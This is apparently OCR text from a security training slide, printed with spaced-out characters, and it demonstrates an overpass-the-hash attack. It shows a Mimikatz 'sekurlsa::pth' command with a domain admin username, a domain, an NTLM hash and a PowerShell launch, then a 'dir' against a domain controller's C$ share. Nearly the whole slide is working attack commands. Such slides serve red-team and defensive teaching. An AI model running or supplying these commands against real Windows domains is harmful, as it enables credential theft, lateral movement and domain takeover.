

m i m i k a t z . e x e
s e k u r l s a :: p t h	/ u s e r : d a d m i n . u s e r	/ d o m a i n : a l t o . t e l
/ n t l m : a b 17459 b 22 bc 447 d 860 c 7243 f 6 b 40436
/ r u n : p o w e r s h e l l . e x e
# OVER-PTH MIMIKATZ
d i r	\ \ dc - 01 \ C$
179